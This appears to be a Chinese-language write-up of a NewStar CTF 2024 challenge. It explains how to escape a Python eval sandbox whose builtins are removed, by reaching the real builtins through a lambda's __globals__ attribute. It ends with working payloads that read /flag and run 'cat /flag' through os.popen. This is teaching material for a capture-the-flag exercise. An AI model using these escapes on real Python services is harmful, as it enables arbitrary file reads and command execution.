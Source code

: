 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import SVGGithub from '@docs/assets/icons/mdi--github.svg?component'
</script>

# 臭皮踩踩背

题目需要用 nc 连接，给出了部分源码：

```python
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

完整源码：

```python
print('你被豌豆关在一个监狱里……')
print('豌豆百密一疏，不小心遗漏了一些东西…')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮…')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

再此之前，我们来学习一下[参考文档](/guide/2024/week3.html#臭皮踩踩背)中的内建函数 `__builtins__`，还有 `globals` 到底是什么，再了解的 `eval()` 的原理，逃离这个上下文。

::: warning 注意
下面的代码块中，除特别说明外，若代码快中存在 `>>>` 开头，则表示该代码块是在自己的 Python 环境中作为测试执行的<span data-desc>（直接命令行运行 `python`）</span>，否则，则是 nc 后发送给题目的内容。
:::

## globals 和 builtins

`globals` 是我们当前的全局空间，如果你声明一个全局变量，它将会存在于当前的 `globals` 中，我们可以看一下 `globals` 中到底有哪些内容，直接新建一个 Python 会话：

```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> x=1
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'x': 1}
```

但是为什么我们能够直接调用 `open()` 函数呢？因为 。但是如果访问了 `open` 函数，如果 `globals` 中有，那就执行 `globals` 中的<span data-desc>（可能是你自己定义的，因此存在于 `globals` 空间中）</span>，否则，执行 `builtins` 中的<span data-desc>（类似 `open` `eval` `__import__` 之类的函数都是在 `builtins` 中的）</span>。

我们来查看一下 `builtins` 中到底有哪些内容：

```python
>>> globals()['__builtins__'].__dict__.keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'aiter', 'len', 'locals', 'max', 'min', 'next', 'anext', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'WindowsError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'EncodingWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help', '_'])
```

可以看到 `open` `eval` `__import__` 等函数都在 `builtins` 中。

## eval

`eval` 函数的第一个参数就是一个字符串，即你要执行的 Python 代码，第二个参数就是一个字典，指定在接下来要执行的代码的上下文中，`globals` 是怎样的。

题目中，`eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l})` 这段代码，`__builtins__` 被设置为 `None`，而我们输入的代码就是在这个 `builtins` 为 `None` 的上下文中执行的，我们从而失去了直接使用 `builtins` 中的函数的能力，像下面的代码就会报错<span data-desc>（题目中直接输入 `print(1)`）</span>：

```python
>>> eval('print(1)', {"__builtins__": None})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

由于全局 `global` 中没有 `print`，从而从 `builtins` 中寻找，而 `builtins` 为 `None`，触发错误。

但注意看，题目刚好给了一个匿名函数 `f`，看似无用，实际上参考文档已经给出提示——**Python 中「一切皆对象」**。故可以利用函数对象的 `__globals__` 属性来逃逸。我们可以在 Python 终端测试一下：

```python
>>> f = lambda: None
>>> f.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'f': <function <lambda> at 0x0000026073850700>}
```

函数的 `__globals__` 记录的是这个函数所在的 `globals` 空间，而这个 `f` 函数是在题目源码的环境中（而不是题目的 eval 的沙箱中），我们从而获取到了原始的 `globals` 环境，然后我们便可以从这个原始 `globals` 中获取到原始 `builtins`：

```python
f.__globals__['__builtins__']
```

## 深入探究 eval 的 builtin 逻辑

但这里还有一个问题，如果我们直接调用 `f.__globals__['__builtins__'].eval`，先不说题目会替换掉 `eval` 函数<span data-desc>（实际上在点号前随便几个空格或者字符串拼接就能绕过，下不赘述）</span>，即使我们能够调用，也会报错：

```python
>>> f = lambda: None
>>> inp='''f.__globals__['__builtins__'].eval('print(1)')'''
>>> eval(inp, {"__builtins__": None, 'f': f})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

为什么呢？可以看 Python 解释器的 `builtins` 相关的代码：[<SVGGithub width='1.2em' height='1.2em' style='display: inline-block; vertical-align: sub;' /> bltinmodule.c](https://github.com/python/cpython/blob/079875e39589eb0628b5883f7ffa387e7476ec06/Python/bltinmodule.c#L996-L1002).

![bltinmodule.c](/assets/images/wp/2024/week3/caicaibei_1.png)

可见，会检查 `globals` 中是否已经包含了 `builtins`，如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为[官方文档中对 `eval` 函数的描述](https://docs.python.org/3.10/library/functions.html#eval)：

![官方文档](/assets/images/wp/2024/week3/caicaibei_2.png)

因此，报错的原因便是，我们在 `inp` 中的 `eval` 并没有指定 `globals`，因此 Python 会将**当前调用处的上下文的 `globals`** 作为第二个参数，即使设定了第二个参数但没有指定 `__builtins__`，Python 也会自动注入**当前上下文**中的 `builtins`（也就是未指定则继承）。但当前上下文中的 `builtins` 是 `None`，因此会报错。

绕过也很简单，显示指定即可：

```python
>>> inp='''f.__globals__['__builtins__'].eval('print(1)', { "__builtins__": f.__globals__['__builtins__'] })''' # [!code highlight]
>>> eval(inp, {"__builtins__": None, 'f': f})
```

可以看下面的结构树：

```python
# In source code
globals()               <- f.__globals__
  ├─ __builtins__       <- f.__globals__['__builtins__']
  │  ├─ open            <- f.__globals__['__builtins__'].open
  │  ├─ eval            <- f.__globals__['__builtins__'].eval
  │  └─ ...
  ├─ f                  <- f.__globals__['f']
  └─ ...
    # In `eval(inp, {"__builtins__": None, "f": f})`
    globals()
      ├── __builtins__  <- None
      ├── f
      └─ ...
      # Though `f` was from top globals, and you can reach top builtins by `f.__globals__['__builtins__']`
      # the context is still at this level when you run `eval()` AKA `f.__globals__['__builtins__'].eval()`
      # so Python will inject the current builtins, which is `None`, into the `eval` context
```

## Payload

综上，Payload 其实有很多种，这里列举一些：

::: code-group

```python [读文件]
f.__globals__['__builtins__'].open('/flag').read()
```

```python [代码执行]
f.__globals__['__builtins__'] .eval('open("/flag").read()', { "__builtins__": f.__globals__['__builtins__'] })
```

```python [命令执行]
f.__globals__['__builtins__'].__import__('os').popen('cat /flag').read()
```

:::
